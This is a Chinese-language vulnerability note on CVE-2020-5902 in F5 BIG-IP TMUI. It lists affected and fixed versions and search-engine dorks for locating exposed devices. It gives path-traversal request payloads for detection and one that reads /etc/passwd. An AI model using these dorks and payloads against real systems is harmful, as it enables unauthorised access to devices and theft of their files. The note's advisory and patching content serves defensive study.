 ```yaml
---

title: cve-2020-5902
tags: 安全
---
```


[toc]

*`警告,用于学习,切勿做破坏,造成的后果本人概不负责`*

> 2020年07月03日， 360CERT监测发现 `F5` 发布了 `F5 BIG-IP 远程代码执行` 的风险通告，该漏洞编号为 `CVE-2020-5902`，漏洞等级：`严重`。
>
> 未授权的远程攻击者通过向漏洞页面发送特制的请求包，可以造成任意 Java 代码执行。进而控制 `F5 BIG-IP` 的全部功能，包括但不限于: 执行任意系统命令、开启/禁用服务、创建/删除服务器端文件等。该漏洞影响控制面板受影响，不影响数据面板。

# 漏洞详情

`F5 BIG-IP` 是美国`F5`公司一款集成流量管理、DNS、出入站规则、web应用防火墙、web网关、负载均衡等功能的应用交付平台。

在 `F5 BIG-IP` 产品的流量管理用户页面 (TMUI)/配置实用程序的特定页面中存在一处远程代码执行漏洞。

# 影响版本

- BIG-IP 15.x: 15.1.0/15.0.0
- BIG-IP 14.x: 14.1.0 ~ 14.1.2
- BIG-IP 13.x: 13.1.0 ~ 13.1.3
- BIG-IP 12.x: 12.1.0 ~ 12.1.5
- BIG-IP 11.x: 11.6.1 ~ 11.6.5

# 修复建议

升级到以下版本

- BIG-IP 15.x: 15.1.0.4
- BIG-IP 14.x: 14.1.2.6
- BIG-IP 13.x: 13.1.3.4
- BIG-IP 12.x: 12.1.5.2
- BIG-IP 11.x: 11.6.5.2

# 目标搜索

> 注：请将下面的%26替换为&
>
> **shodan**
>  http.favicon.hash:-335242539
>
> http.title:"BIG-IP%26reg;- Redirect"
>
> **fofa**
>  title="BIG-IP%26reg;- Redirect"
>
> **censys**
>  443.https.get.body_sha256:5d78eb6fa93b995f9a39f90b6fb32f016e80dbcda8eb71a17994678692585ee5
>
> 443.https.get.title:"BIG-IP%26reg;- Redirect"
>
> **google**
>  inurl:"tmui/login.jsp"
>
> intitle:"BIG-IP" inurl:"tmui"

# 漏洞检测

```http
/tmui/login.jsp/..;/tmui/system/user/authproperties.jsp
/tmui/login.jsp/..;/tmui/util/getTabSet.jsp?tabId=a
```

# 利用

```http
/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
```

